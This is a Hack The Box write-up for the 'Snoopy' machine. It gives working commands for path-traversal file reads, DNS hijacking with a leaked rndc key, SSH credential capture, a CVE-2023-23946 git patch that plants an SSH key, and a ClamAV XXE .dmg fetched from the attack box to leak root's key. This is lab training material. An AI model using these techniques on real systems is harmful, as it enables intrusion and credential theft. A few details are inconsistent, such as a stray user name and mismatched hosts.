<h1>HTB: Snoopy</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Snoopy)       |
| Difficulty | Hard                                                             |
| OS         | Linux                                                            |
| Author     | ByteFragment                                                     |
| Date       | July 27th 2026                                                   |

--- 
<h2>Enumeration</h2>

Before we do anything lets create three files:

1. <b>credentials.txt</b> where we will store valid username/passwd combinations
2. <b>users.txt</b> where we will store all usernames we come across
3. <b>pass.txt</b> where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse.

Lets add the Olivia user and their password to these respective files.

<h3>NMAP</h3>

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.232.130 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can see that the target machine is running an ssh server on port 22, a DNS server on port 53 running `BIND 9.18.12`, and a http server on port 80 running `nginx 1.18.0`:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ee:6b:ce:c5:b6:e3:fa:1b:97:c0:3d:5f:e3:f1:a1:6e (ECDSA)
|_  256 54:59:41:e1:71:9a:1a:87:9c:1e:99:50:59:bf:e5:ba (ED25519)
53/tcp open  domain  ISC BIND 9.18.12-0ubuntu0.22.04.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.18.12-0ubuntu0.22.04.1-Ubuntu
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: SnoopySec Bootstrap Template - Index
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `snoopysec.htb` to our /etc/hosts file and then visit the URL.

<h3>Web Recon</h3>

Visiting the url we are greeted with the homepage for `SnoopySec` a DevSecOps tooling provider:


When we visit the `Contact` page a message is displayed stating:

```
Attention:  As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline.
```

Lets add `mail.snoopy.htb` to our /etc/hosts file and use `FFUF` to enumerate for any other subdomains.

<h3>FFUF</h3

Using the command:

```
ffuf -u http://snoopy.htb -t 50 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.snoopy.htb"
```

We are bombarded with results that are not valid and are of no use to us:



However we notice that all of them are the same size ie `23418` so we can add the `-fs` flag to filter out all results of that size:



The scan reveals a singular results `mm` so let's add `mm.snoopy.htb` to our /etc/hosts file and then visit it using Firefox:



After doing a quick search we find that `MatterMost` is a "self-hostable online chat service with file sharing, search, and third-party application integrations". 


In the `Focus On What Matters` section back on the main page we see there are two links to download a press release package or the most recent announcement.

Clicking the button downloads a zip file called `press_release.zip` which contains a single pdf document and a .mp4 video file:



At the bottom of the `announcement.pdf` file we see the contact information for `Sally Brown` but at the end of the `snoopysec_marketing.htb` video we see a different email `sbrown@snoopy.htb`:



We can potentially use this email to login to the `Mattermost` page but seeing as we do not currently have a password lets see if we can reset it:





Attempting to reset the password results in an error that says 'Failed to send password reset email successfully.' which makes sense given that the mail server is down. 

<h3>Firefox Dev Tools</h3>
Let's use the Firefox dev tools to see the actual network requests that occur when we click the recent announcements link:



Clicking the link sends a `GET` request to `snoopy.htb/download?file=announcement.pdf` and as we can see the file parameter is set to `announcement.pdf`. This looks like it has the potential to be vulnerably to Local File Inclusion so lets test this by trying to access /etc/passwd:

Using `../../../etc/passwd` we receive no response:




This could be because the `../` are being filtered out so lets try using `....//` instead:



This time we do get a response and a zip file is downloaded still titled `press_release.zip` but when we unzip it we see it contains the target machines /etc/passwd file:



And from this we get a series of new usernames to add to our usernames.txt file:



Looking back at the nmap scan see can see that there is an ssh server as well as a dns server running on the target machine so let's attempt to read some files relevant to those services.

I first attempted to read ssh private keys from the users listed in the /etc/passwd file but this did not successfully retrieve any keys.

<h3>DNS Enumeration</h3>

Using `dig` we can take a look at the existing DNS record using the command:

```
dig axfr snoopy.htb
```

However this command fails as we need to specify the ip of the DNS server (ie the target machine) using the `@<DNS_IP>` option:

```
dig axfr @10.129.229.5 snoopy.htb
```

From this we get a lot of information:

```
; <<>> DiG 9.20.24-1+b1-Debian <<>> axfr @10.129.229.5 snoopy.htb
; (1 server found)
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
```

Curiously we notice that there is no DNS record for `mail.snoopy.htb`, this makes sense as the alert from the Contact page references a migration of DNS records.

The DNS service running on the target is `Bind9` and according to [linuxvox](https://linuxvox.com/blog/config-bind9-in-ubuntu/) the configuration file  for this service is located at `/etc/bind/named.conf.local`. So lets use our LFI exploit to read the file:



The [Bind9](https://bind9.readthedocs.io/en/stable/reference.html#namedconf-statement-allow-update) documentation states that `allow-update` "specifies which hosts are allowed to submit dynamic DNS updates to that zone". In this case that means that anyone with the `rndc-key` can update the DNS.

This key is configured in the `/etc/bind/named.conf` file ([tecadmin](https://tecadmin.net/configure-rndc-for-bind9/)), so lets again use our LFI vulnerability to read the file:



The file does indeed contain the key so let's create a new file called `rndc.key` and paste the entire `key "rndc-key"{}` section into it.

Given that there is no DNS record for `mail.snoopy.htb` and we now have the key that allows us to update the DNS records we should be able to add a record for `mail.snoopy.htb` that points to our attack box ip address.

We can do this with the `nsupdate` tool using the `-k` flag to point to our key file:

```
nsupdate -k rndc.key
```

Then we can fill out the DNS record information:

```
nsupdate -k rndc.key  
> server 10.129.229.5
> zone snoopy.htb
> update add mail.snoopy.htb 60 A 10.10.15.16
> send
> quit
```

Though we now have control over the `mail.snoopy.htb` record we still need to set up a mail server in order to recieve traffic. The first step in this process is to install `postfix`, an open-source mail transfer agent:

```
sudo apt install postfix
```

We are then prompted with some configuration options:



Here we select `Internet Site`. 

The next prompt asks us for our domain name, here we enter in `snoopy.htb`:



Then we need to start the service using:

```
sudo systemctl start postfix
```

When we again try to reset the password we still get the `Failed to send password reset email successfully`. 

Looking at the posix logs we see that there was a `550 5.1.1` error which means [User unknown](https://www.mailslurp.com/blog/fixing-smtp-550-errors/):



In order to rectify this we have to create the user sbrown locally as well as create a mail file for them:

```
sudo useradd sbrown 
sudo touch /var/mail/sbrown; sudo chown sbrown:sbrown /var/mail/sbrown
```

The DNS records also appear to be reset so after updating them again we can try and reset the password again:



The reset email appears to be successfully sent! Checking the `/var/mail/sbrown` file we see that we have received the email:



The email contains a link where we can reset the password so lets visit it:



Here we can reset the password, in this case we will change it to `Password123!`

However when we click the `Change my password` button we receive an error telling us that there is an `Invalid or missing token in request body.`

This is because there is some extra encoding that is handled by SMTP, specifically the `=` sign in SMTP is used to represent the end of a line so the `=3D` is actually a quoted printable encoding of an `=`. Using [webatic](https://www.webatic.com/quoted-printable-convertor) we can decode it into its valid form:



Using this new URL we find that we are able to successfully reset the password:


After logging in with our newly changed credentials we now have access to the MatterMost messages for `DevSecOPs`:



In the first message of the `Town Square` channel cbrown references the creation of a `new channel dedicated to submitting requests for new server provisions` so lets search for that in the `Find channel` searchbox in the top left:



<h2>Exploitation/Foothold</h2>



Typing a `/ ` in the `Server Provisioning` channel shows us the available commands which include `/server_provision`:

Running this gives us a popup box where we fill in the required information:



Immediately upon submitting the request we receive a message from `cbrown` indicating they cannot access the server instance:



Trying it again but this time while using `WireShark` to monitor traffic coming in over the tun0 interface on port 2222 reveals the target machine is trying to connect to our attack machine:



Given `cbrown`'s message about being unable to access the machine we can assume that there is some sort of auth failure happening when the target machine attempts the connection.

Therefore we can potentially intercept this authentication attempt using [sshesame](https://github.com/jaksi/sshesame) from `jaksi` on GitHub.

After cloning the repo and changing into the repo directory we can set up out ssh honeypot:



Then we need to submit another provision request in order to trigger another authentication attempt:



Checking our honeypot we see that we have successfully obtained credentials for `cbrown` which we can potentially use so ssh into the target machine!



<h2>Lateral Movement</h2>

Enumerating the `cbrown` user we find that they are apart of the `devops` group along with the `sbrown` user:



Additionally running the `sudo -l` command to see what command we are allowed to run `git apply -v` as sbrown:



Searching for git apply vulnerabilities we find this git security [advisory](https://github.com/git/git/security/advisories/GHSA-r87m-v37r-cwfh) stating that "By feeding specially crafted input to git apply, a path outside the working tree can be overwritten as the user who is running git apply". It additionally supplies a CVE ID : `CVE-2023-23946` 

Checking the git version we find the target machine is running `git version 2.34.1` which is within the vulnerable versions listed in the advisory.

<h3>Exploitation</h3>

We will attempt to use this exploit to read `sbrown`'s .ssh folder so we can gain ssh access by reading their private key(s).

The first step in this exploit is to create a git repo so we need to create a directory and run `git init` inside it:



Here we chose to create the `lat_move` directory within the `/dev/shm` directory as this location is non persistent as it is ram disk which is cleared on reboot.

Then we must create a symlink between `/home/sbrown/.ssh` and the current `lat_move` directory:

```
ln -s /home/sbrown/.ssh symlink
```

Then we need to add and commit the `symlink`:

```
git add symlink
git commit -m "add symlink"
```

Ad this point we can generate a ssh-key specific to this use case by running this command on our attack machine:

```
ssh-keygen -t rsa -f sbrown
```

Then we can cat the contents of `sbrown.pub` as we will need to add it to out patch file.

The patch file should contain the following:

```
diff --git a/symlink b/renamed-symlink
similarity index 100%
rename from symlink
rename to renamed-symlink
--
diff --git /dev/null b/renamed-symlink/authorized_keys
new file mode 100644
index 0000000..039727e
--- /dev/null
+++ b/renamed-symlink/authorized_keys
@@ -0,0 +1,1 @@
+ssh-rsa AAAAB3NzaC1yc2E.....
```

We can then apply the patch as `sbrown` by running the command:

```
sudo -u sbrown /usr/bin/git apply -v patch
```

This patch will rename the symlink to renamed-symlink and then add our ssh key to `sbrown`s authorized keys file allowing us to login using ssh without a password:

```
ssh -i sbrown sbrown@snoopy.htb
```



Upon login we find the user flag!

<h2>Privilege Escalation</h2>

After running the `sudo -l` command we find that `sbrown` can run `/usr/local/bin/clamscan ^--debug /home/sbrown/scanfiles/` as root:



A quick search reveals that `clamscan` is a virus scanner for linux.

Searching further for relevant vulnerabilities we find a [Sentinal One](https://www.sentinelone.com/blog/cve-2023-20052/) blog post that describes `CVE-2023-20052: ClamAV XXE Vulnerability`. This vulnerability is the result of how Clamscan processing XML data which results in the execution of code embedded in a document when scanned by the AV.

This CVE effects version prior to and including 1.0.0 so lets make sure that the target machine is running a vulnerable version:

```
dpkg -l
```



As we can see it is running version 1.0.0 making it vulnerable to this CVE.

The first step in exploiting this vulnerability is the creation of a malicious `.dmg` file. 

We can do this using the `genisoimage` command line tool:

```
genisoimage -V nonmalicious -D -R -apple -no-pad -o nonmalicious.dmg /mn
```

We then need to clone this [github repo](https://github.com/fanquake/libdmg-hfsplus) and alter the file at `/labs_htb/Snoopy/libdmg-hfsplus/dmg/resources.c`

Specifically we need to alter the `plistheader` in oder to have it display the root users private ssh key:


Then we need to alter the `writeResource` function:


Next, making sure we are in the libdmg-hfsplus directory, we need to create our malicious .dmg file using the following commands:

```
cmake . -B build

make -C build/dmg -j8

build/dmg/dmg nonmalicious.dmg c.dmg
```

With our malicious dmg file ready we now need to set up a python server to transfer the file to the target machine:

```
python -m http.server 1234
```

Then on the target machine we change into the `scanfiles` directory and retrieve the file:

```
wget 10.10.15.16:1234/c.dmg
```

Then using sudo we run the `clamscan` scanner on the `c.dmg` file:

```
sudo clamscan --debug /home/sbrown/scanfiles/c.dmg
```



Success! We now have the root user private ssh key. Let's copy this to a file on our attack machine and change the file permissions to `600`:



After successfully logging in we see the root flag is in the current directory, thus solving the challenge!

